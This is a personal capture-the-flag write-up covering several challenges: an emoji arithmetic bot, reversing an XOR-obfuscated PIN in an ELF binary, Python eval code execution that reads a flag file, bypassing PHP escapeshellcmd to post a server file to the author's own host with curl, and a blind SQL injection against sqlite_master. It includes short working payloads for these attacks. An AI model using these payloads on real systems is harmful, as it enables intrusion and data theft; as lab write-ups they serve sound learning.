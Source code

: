# CHTB Write-up
----

### Alien Camp 
###### Category: Misc

Main goal of challenge is to be able to read and write emojis on TCP socket connection.
Instead of handling the case to render emojis on terminal, got around the problem by creating a JS script to read and respond to questions as follows:

```text
1. ❓
2. Take test!
> 1
Here is a little help:

🌞 -> 26 🍨 -> 20 ❌ -> 70 🍪 -> 16 🔥 -> 72 ⛔ -> 26 🍧 -> 81 👺 -> 13 👾 -> 82 🦄 -> 42 
```
Get help and map of which emojis points to which number. Then proceed to request for test. 

```text
1. ❓
2. Take test!
> 2

You must answer 500 questions. You have only a few seconds for each question! Be fast! ⏰

Question 1:

🍪 - 🦄  = ?

Answer: -26

Time: 0.15
Correct! ✔
Question 2: ... and so on
```

Read the question, replace the emojis with numbers in the string and pass it as is to `eval` and send the results as response on TCP socket.

Find the [JS code here](./whyemojiswhy.js)

----

### Authenticator
###### Category: Reversing

You are given a executable and we need to be able to make it print our flag.
For any executable, first thing I do is understand what the executable does and what I can get without even executing it. 
Run `file` , it gives you 
```bash
$ file ./authenticator/authenticator 
./authenticator: ELF 64-bit LSB shared object, x86-64, ...
```
This is good enough for us to know its a C or C++ compiled library. Next run the executable to read all strings.
```bash
$ strings ./authenticator/authenticator
...
Please enter your credentials to continue.
Alien ID: 
11337
Access Denied!
...
```
We can see that even without executing it we know what alias needs to be entered.
We execute the script and we find that only `11337` alias is accepted by script.
Then we use a decompiler that I found works flawlessly every single time. 
[retdec](github.com/avast/retdec) works awesome (would like to know if there are better out there than this). We can see following excerpt in the code that checks for PIN.
```c
    char v3 = *(char *)(v1 + (int64_t)"}a:Vh|}a:g}8j=}89gV<p<}:dV8<Vg9}V<9V<:j|{:"); // 0x98b
    int64_t result = 1; // 0x9a7
    while ((v3 ^ 9) == *(char *)(v1 + (int64_t)str)) {
        // 0x9b4
        v2++;
        v1 = v2;
        result = 0;
        if ((int64_t)strlen((char *)str) - 1 <= v1) {
            // break -> 0x9d4
            break;
        }
        v3 = *(char *)(v1 + (int64_t)"}a:Vh|}a:g}8j=}89gV<p<}:dV8<Vg9}V<9V<:j|{:");
        result = 1;
    }
```
It is basically a substitution cipher and the solution is `th3_auth3nt1c4t10n_5y5t3m_15_n0t_50_53cur3`.

----
### Input as a Service
###### Category: Misc

Tried opening the service on browser and it looked broken. We use `nc` to connect to service and it returns a python shell, which enabled us to be able to get code executed in server using python's `eval`. (every hacker's dream)

First thing to do is try importing as we have only one line, we use `__import__('os').listdir('/')`. This works we see that there's a file named `flag`.  We get the contents of using following: 
```python
__import__('os').system('cat /app/flag.txt')
```

----

### Caas
###### Category: Web

This for me was easy to figure out but hard to crack. Looking at source code we can easily identify first line
```php
        $this->command = "curl -sL " . escapeshellcmd($url);
```
and then an `exec` of command. 
There is also a validation check for only DN but that's only client side check and sending a raw POST bypasses that. Then next hurdle comes at `escapeshellcmd`, which [escapes good number of symbols](https://www.php.net/manual/en/function.escapeshellcmd.php) before creating the string. (Skip 2 paragraphs for solution)

Here you might waste a lot of time trying to bypass escape function and trying different things as you get to know that `[Space]` is not escaped by the function.   But the solution is rather simple (this truck me after 3 hours).

One thing which is absolutely needed is for you to have local server hosted on internet. The easiest and fastest way is to bring up a [echo-server](https://pypi.org/project/echo-server/) (isn't really that good and I'm planning to have mine soon) and server it using [nginx](https://ngrok.com/).
You could maybe try to `cat` the flag file and send as path param/query param to your local server and log all requests and then read the path. Or maybe just copy file into assets directory to be able to read it via browser. But that fails because most of the times, because execution is mostly guaranteed to not work with `escapeshellcmd`. 

Solution is just to send the `flag` file itself as a HTTP Post data to your local server and just read the POST content using `--data "@/flag"`.

----

### emoji voting
###### Category: Web

Checking the source code we can see that `/api/list` takes and argument  `order` and uses this argument into SQL query without SQL Parameters. We can see in `database.js` that flag table is created with a random number appended to it, which means we also need to figure out the table name. As we are using `sqllite` the table names are stored in `sqlite_master` table. We pass a `case` command to order by one column when condition matches and order my another column when it doesn't. We confirm one character at a time in flag table name by matching the substring of table name. Find the complete [code here](./neversawthatcoming.js).
```js
            // refomatted for understanding purposes
            "body": "{\"order\":\"( 
			  CASE SUBSTR(
			    (   
				    SELECT name FROM sqlite_master 
				    WHERE name LIKE 'flag_%'),1," + _length + "
			    ) 
			    WHEN '" + flag_prefix + flag_char + "' 
			    THEN name ELSE count END
			  ) 
			ASC\"}",
```

Above script is inside a `for` loop which iterates over all possibilities of `flag_...` name and recursively proceeds with names that match the table name.
Once we get the file name we just need the content of flag in first row.
Minor modifications to above query to read the flag ([complete code](./thisIsawcoming.js)) and this challenge is PWN'd as well.


----

Tried following challenges but failed:
 - Web - Cessation
 - Crypto - Tetris
 - Web - E.tree
 - Forensics - Oldest trick in the book
 - Forensics - Invitation
 - Crypto - Forge of Empires
 - Misc - Robotic Infiltration
 - Forensics - Key Mission
 - Reversing - Passphrase
 - Pwn - Controller (really wanna know)
 - Reversing - Backdown
 - Web - Artillery (really wanna know)




